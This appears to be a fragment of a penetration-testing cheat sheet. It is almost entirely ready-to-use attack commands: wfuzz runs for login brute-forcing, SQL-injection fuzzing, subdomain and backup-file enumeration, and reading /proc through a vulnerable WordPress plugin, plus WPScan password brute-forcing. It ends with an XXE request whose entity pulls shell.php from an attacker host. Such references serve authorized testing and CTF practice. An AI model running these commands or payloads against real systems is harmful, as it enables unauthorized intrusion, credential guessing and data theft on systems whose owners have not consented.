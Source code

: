 ```c
wfuzz -X POST -u "http://<RHOST>:<RPORT>/login.php" -d "email=FUZZ&password=<PASSWORD>" -w /PATH/TO/WORDLIST/<WORDLIST>.txt --hc 200 -c
wfuzz -X POST -u "http://<RHOST>:<RPORT>/login.php" -d "username=FUZZ&password=<PASSWORD>" -w /PATH/TO/WORDLIST/<WORDLIST>.txt --ss "Invalid login"
```

##### SQL

```c
wfuzz -c -z file,/usr/share/wordlists/seclists/Fuzzing/SQLi/Generic-SQLi.txt -d 'db=FUZZ' --hl 16 http://<RHOST>/select http
```

##### DNS

```c
wfuzz -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Origin: http://FUZZ.<RHOST>" --filter "r.headers.response~'Access-Control-Allow-Origin'" http://<RHOST>/
wfuzz -c -w /usr/share/wordlists/secLists/Discovery/DNS/subdomains-top1million-110000.txt --hc 400,404,403 -H "Host: FUZZ.<RHOST>" -u http://<RHOST> -t 100
wfuzz -c -w /usr/share/wordlists/secLists/Discovery/DNS/subdomains-top1million-110000.txt --hc 400,403,404 -H "Host: FUZZ.<RHOST>" -u http://<RHOST> --hw <value> -t 100
```

##### Numbering Files

```c
wfuzz -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt --hw 31 http://10.13.37.11/backups/backup_2021052315FUZZ.zip
```

##### Enumerating PIDs

```c
wfuzz -u 'http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/FUZZ/cmdline' -z range,900-1000
```

#### WPScan

```c
wpscan --url https://<RHOST> --enumerate u,t,p
wpscan --url https://<RHOST> --plugins-detection aggressive
wpscan --url https://<RHOST> --disable-tls-checks
wpscan --url https://<RHOST> --disable-tls-checks --enumerate u,t,p
wpscan --url http://<RHOST> -U <USERNAME> -P passwords.txt -t 50
```

#### XML External Entity (XXE)

##### Skeleton Payload Request

```c
GET / HTTP/1.1
Host: <RHOST>:<RPORT>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Length: 136

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE test [<!ENTITY xxe SYSTEM "http://<LHOST>:80/shell.php" >]>
<foo>&xxe;</foo>
```
